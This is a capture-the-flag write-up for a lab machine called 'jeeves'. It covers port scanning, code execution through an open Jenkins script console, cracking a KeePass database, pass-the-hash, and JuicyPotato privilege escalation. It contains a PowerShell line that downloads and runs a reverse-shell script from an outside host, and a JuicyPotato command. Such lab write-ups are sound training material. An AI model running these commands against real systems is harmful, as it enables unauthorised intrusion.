# jeeves


## nmap


PORT      STATE SERVICE                                                                                                                                                  
80/tcp    open  http                                                                                                                                                     
135/tcp   open  msrpc                                                                                                                                                    
445/tcp   open  microsoft-ds                                                                                                                                             
50000/tcp open  ibm-db2 


## httpenumeration


- nothing interesting was there on port 80 
- we saw a image but its a rabbit-hole
- enumerating port 50000 we find a interesting directory




-  we found a open jenkins console 
- this can lead to command execution as jenkins allows us to execute command




## shell

- we got shell by executing command in script console




- we got a keepass database



- another way of getting shell

```powershell
cmd = " powershell iex(new-object net.webclient).downloadstring('http://10.10.14.37:8000/rev.ps1') "
cmd.execute()
```





- and cracked it with john




## post

- we got a NTLM hash which we used for pass the hash attack



- alternate datastream




#### 2nd method of privesc

- we will juicy potato as we have SeImpersonatePrivilege




```
.\JuicyPotato -l 4445 -p .\shell.bat -t *
```

- we will create a share a try to execute a reverse shell with the arguments in juicy potato




- created a bat file with powershell command and got the shell


- we can also use pth-winexe for pass the hash

